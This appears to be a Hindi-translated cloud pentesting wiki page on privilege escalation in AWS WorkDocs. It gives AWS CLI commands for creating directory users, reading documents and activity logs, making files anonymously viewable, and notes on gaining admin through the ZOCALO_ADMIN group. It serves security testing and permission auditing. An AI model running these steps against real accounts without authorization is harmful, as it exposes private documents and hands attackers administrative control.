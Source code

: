 # AWS - WorkDocs विशेषाधिकार प्राप्ति

## WorkDocs

WorkDocs के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

दिए गए निर्देशित निर्देशिका में एक उपयोगकर्ता बनाएं, फिर आपको वर्कडॉक्स और एडी दोनों तक पहुंच होगी:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

फ़ाइलों में संवेदनशील जानकारी हो सकती है, उन्हें पढ़ें:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

यदि आपको किसी चीज़ को पढ़ने का अधिकार नहीं है, तो आप इसे सीधे प्रदान कर सकते हैं।
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

आप उपयोगकर्ता को व्यवस्थापक बना सकते हैं उसे समूह ZOCALO_ADMIN में सेट करके।
इसके लिए [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html) से निर्देशों का पालन करें।

उस उपयोगकर्ता के साथ workdoc में लॉगिन करें और `/workdocs/index.html#/admin` में व्यवस्थापक पैनल तक पहुंचें।

मुझे cli से इसे करने का कोई तरीका नहीं मिला।
